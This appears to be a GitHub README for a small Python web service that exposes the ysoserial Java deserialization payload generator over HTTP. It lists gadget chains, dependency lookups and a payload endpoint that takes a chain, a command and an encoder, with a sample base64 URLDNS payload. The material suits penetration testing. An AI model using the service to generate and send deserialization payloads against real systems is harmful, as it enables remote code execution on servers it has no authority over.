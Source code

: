 # YSO-API
### API for ysoserial-all.jar

---

# ysoserial-all.jar
https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar

 

# Install & Launch
```
git clone https://github.com/NinjaGPT/yso-api/
pip install -r requirements.txt
python3 yso-api.py
```
default service port is 22222

# ⚠ Reminder
 ```
In Java 9 and later, the module system introduced stricter access control, restricting
reflective access to non-public members. So in the use of ysoserial generated content
will meet InaccessibleObjectException errors
​
Solution:
1. Uses Java 8
If possible, Java 8 can be used to generate the payload, which is not limited by the module system.
​
2. Adjust JVM startup parameters
You can use the JVM startup parameter to open access to the java.net module. This can be done by adding the following parameters:
--add-opens java.base/java.net=ALL-UNNAMED
```

# Usage

## Gain Gadget Chains Supported
```
Path:    http://yso-api-server:22222/yso/chains
Mothod:  GET
Params:  N/A
```
#### Response sample
```
{"gadget_chains":["AspectJWeaver","BeanShell1","C3P0","Click1","Clojure","CommonsBeanutils1",
  "CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4",
  "CommonsCollections5","CommonsCollections6","CommonsCollections7","FileUpload1","Groovy1",
  "Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1",
  "JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","MozillaRhino2","Myfaces1",
  "Myfaces2","ROME","Spring1","Spring2","URLDNS","Vaadin1","Wicket1"]}
```

## Gain Dependencies Of Specific Gadget Chains
```
Path:    http://yso-api-server:22222/yso/deps
Method:  GET
Params:  chain=[chain_name]
```

#### Request sample:
```
http://yso-api-server:22222/yso/deps?chain=Spring1
```

#### Response sample
```
{"Spring1":"spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE"}
```

## Gain dependencies of specific gadget chains
```
Path:    http://localhost:22222/yso/payload
Method:  GET
Params:  chain=[chain_name],  cmd=[command_or_url],  encode=[encoder]

base64 and xxd encoders are supported by default, you can add more what you want.
```
#### Request sample:
```
http://localhost:22222/yso/payload?chain=URLDNS&cmd=http://google.com/&encode=base64
```
#### Response sample:
```
{"payload":"rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmV
zaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFzaENvZGVJAA
Rwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIc
HJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QACmdvb2dsZS5jb210AAEvcQB+AAV0AARodHRwcHh0
ABJodHRwOi8vZ29vZ2xlLmNvbS94"}
```
---
## Screenshot
<img width="1019" alt="image" src="https://github.com/user-attachments/assets/72207db7-9e7a-4c43-9865-e7fe9ef83f35">

